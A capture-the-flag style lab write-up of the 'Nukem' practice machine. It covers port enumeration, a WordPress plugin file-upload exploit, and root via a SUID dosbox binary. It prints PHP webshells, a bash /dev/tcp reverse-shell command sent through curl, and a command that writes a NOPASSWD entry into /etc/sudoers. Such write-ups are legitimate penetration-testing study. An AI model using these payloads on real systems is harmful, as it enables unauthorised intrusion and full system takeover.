






---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Nukem

## Enumeration

### Nmap

Started with all TCP Nmap SYN scan:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-01 13:45 MDT
Nmap scan report for 192.168.171.105
Host is up (0.058s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:6a:f5:d3:30:08:7a:ec:38:28:a0:88:4d:75:da:19 (RSA)
|   256 43:3b:b5:bf:93:86:68:e9:d5:75:9c:7d:26:94:55:81 (ECDSA)
|_  256 e3:f7:1c:ae:cd:91:c1:28:a3:3a:5b:f6:3e:da:3f:58 (ED25519)
80/tcp    open  http        Apache httpd 2.4.46 ((Unix) PHP/7.4.10)
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.10
|_http-title: Retro Gamming &#8211; Just another WordPress site
|_http-generator: WordPress 5.5.1
3306/tcp  open  mysql?
| fingerprint-strings: 
|   NULL, afp: 
|_    Host '192.168.45.234' is not allowed to connect to this MariaDB server
5000/tcp  open  http        Werkzeug httpd 1.0.1 (Python 3.8.5)
|_http-server-header: Werkzeug/1.0.1 Python/3.8.5
|_http-title: 404 Not Found
13000/tcp open  http        nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Login V14
36445/tcp open  netbios-ssn Samba smbd 4.6.2
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94SVN%I=7%D=6/1%Time=665B7B18%P=x86_64-pc-linux-gnu%r(
SF:NULL,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.45\.234'\x20is\x20not\x20
SF:allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(afp,4D,
SF:"I\0\0\x01\xffj\x04Host\x20'192\.168\.45\.234'\x20is\x20not\x20allowed\
SF:x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 4 hops

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   57.07 ms 192.168.45.1
2   57.03 ms 192.168.45.254
3   57.94 ms 192.168.251.1
4   58.06 ms 192.168.171.105

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 243.30 seconds
```

### Port 80

Ran some enumeration tools:


```bash
feroxbuster -L 20 -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -k -x @/home/qwerzxcv/OSCP/OSCP_Exercises/Utilities/Resources/ferox_extensions.txt -C 404 -E -r -n -u http://nukem.offsec -o ./enumeration/p80.feroxbuster
```


* Normally I run `feroxbuster` with recursion but in this instance it found so many subdirectories the estimated finish time was measured in years. I killed the run and added `-n` for no recursion&#x20;


```bash
whatweb http://nukem.offsec
```


The output of the first 2 indicated it was a WordPress instances so I ran `wpscan` as well:


```bash
wpscan -e --plugins-detection aggressive --api-token XXXXXXXXXX -f cli-no-color -o ./enumeration/p80.wpscan --url http://nukem.offsec
```


Opened a browser, proxied it through burp and began enumeration. The landing page looks like this:

<figure><figcaption><p>Landing page for the site</p></figcaption></figure>

I poked around for awhile and even created a user but nothing was immediately apparent as an entry point.

### Port 5000

There is a `404` error on this port. I ran `feroxbuster` against it to check:


```bash
feroxbuster -L 20 -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -k -x @/home/qwerzxcv/OSCP/OSCP_Exercises/Utilities/Resources/ferox_extensions.txt -C 404 -E -r -u http://nukem.offsec:5000 -o ./enumeration/p5000.feroxbuster
```


It found a `/employees` and `/tracks` but the pages both returned a `500` error with only "`Internal server error`" as the message, no helpful hints or details.

In case they were API endpoints I ran ffuf against both but nothing turned up:


```bash
ffuf -u http://nukem.offsec:5000/employees/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/api/api-endpoints-res.txt
```


* When running against `/employees` I had to add `-fc 500` to remove `500` responses as the first time it seemed like everything returned `500`. With the filter on there were no results.

### Port 13000

This port contains a login page. I tried some standards such as `admin:admin` and `root:root` but no luck:

<figure><figcaption><p>Port 13000 Login Page</p></figcaption></figure>

I note the URL structure takes the login as parameters e.g.


```
http://nukem.offsec:13000/?username=root&pass=root
```


## Foothold

Looking back through the WPScan results on port `80` I see something interesting in the plugins section:

<figure><figcaption><p>This could be helpful</p></figcaption></figure>

The [first reference](https://wpscan.com/vulnerability/365da9c5-a8d0-45f6-863c-1b1926ffd574/) listed helpfully provided a Python PoC. I copy it into an `rce.py` file and examine it.

The source code shows that it attempts to upload a PHP file payload shown below:


```php
<?php if($_POST["password"]=="randompassword"){eval($_POST["cmd"]);}else{echo "<title>404 Not Found</title><h1>Not Found</h1>";}?>'
```


* `randompassword` is actually a random string that is set by the Python script

It seems to use this shell a user will need to `POST` 2 arguments of a `password` and `cmd`.&#x20;

This payload is uploaded to a location with a random filename. Both this and the password are output by the script. It seems to work when run against the target:

<figure><figcaption><p>PoC running successfully</p></figcaption></figure>

Recalling the mechanism of the exploit I construct a call to the uploaded shell:


```bash
curl -X POST --data '{"password":"5242ded9417c3d874326258fdac1c57e", "cmd":"whoami"}' http://nukem.offsec/wp-content/uploads/simple-file-list/7739.php
```


I kept getting the "fake" 404 page listed in the `else` portion of the PHP payload. But if I examined it I was actually getting an HTTP 200 response meaning the shell was being reached and the password was just not evaluating correctly.

I quickly got sick of this and just replaced the PHP from the original payload with:

```php
<?php if(isset($_GET["cmd"])){system($_GET["cmd"]);}?>
```

<figure><figcaption><p>Modified exploit</p></figcaption></figure>

This seemed to work better and I was able to run commands:

<figure><figcaption><p>Checking the shell</p></figcaption></figure>

Perfect so now I just need a URL-encoded reverse shell and I can get started. This proves harder than expected since I cannot find `nc`, `curl`, or `wget` via the `which` command with my shell. I am able to use some other commands such as ls and cat. So then I try which on those and still nothing. I am thinking which is not installed and I do not have access to the error readout from my shell.

So instead I check for it by using (URL encoded and submitted via the shell):

```bash
ls /usr/bin | grep cat
```

Which promptly finds my binary. I am in business. Still no `nc` found but I do find curl so perhaps I can just download `nc`.

I tried that but I could not get it running. I could get it downloaded and chmod-ed but not working as a shell. Eventually I tried the "bash 196" shell and that worked:

```bash
0<&196;exec 196<>/dev/tcp/192.168.45.234/3306; /bin/bash <&196 >&196 2>&196
```

Via a `curl` command:


```bash
curl http://nukem.offsec/wp-content/uploads/simple-file-list/4353.php?cmd=0%3C%26196%3Bexec%20196%3C%3E%2Fdev%2Ftcp%2F192.168.45.234%2F3306%3B%20%2Fbin%2Fbash%20%3C%26196%20%3E%26196%202%3E%26196
```


This worked and I had a shell! I stabilized it with the python technique and began enumeration for privilege escalation.

User access achieved as (`http`).

## Privilege Escalation

### Enumeration

I started with linPEAS and the usual scan of Red-Yellow first. I quickly found:

<figure><figcaption><p>Exploitable SUID</p></figcaption></figure>

I looked on GTFOBins and there was [an exploit](https://gtfobins.github.io/gtfobins/dosbox/#suid) for it:

```
LFILE='\path\to\file_to_write'
./dosbox -c 'mount c /' -c "echo DATA >c:$LFILE" -c exit
```

It took some reading to figure out exactly how this worked. Eventually I learned it was an [arbitrary file read/write](https://gtfobins.github.io/gtfobins/dosbox/#file-write) as `root`. With that in mind I determined the first thing to try would be granting my user (`http`) `sudo` permissions on the machine.

I set `LFILE` to `/etc/sudoers` and used this command line to add my user (`http`) as a sudoer on the machine:


```bash
/usr/bin/dosbox -c 'mount c /' -c "echo http ALL=(root) NOPASSWD: ALL >>c:$LFILE" -c exit
```


Once this ran I was able to run sudo for any command:

<figure><figcaption><p>Sudo permissions granted</p></figcaption></figure>

Root access achieved.

## Learned

* **Using `wpscan`'s `-e` correctly**: I was originally copy/pasting a command that only revealed popular plugins but not necessarily all or vulnerable ones. I read the documentation and figured out how to use `-e` more effectively.

### Difficulty Rating

* **Foothold - 3/10:** There was a lot to enumerate but the actual WordPress exploit was easy to find and use once the vulnerable plugin was found&#x20;
* **Privilege Escalation - 2/10:** SUID was easy to find but it took a minute to figure out what I had and how to leverage it
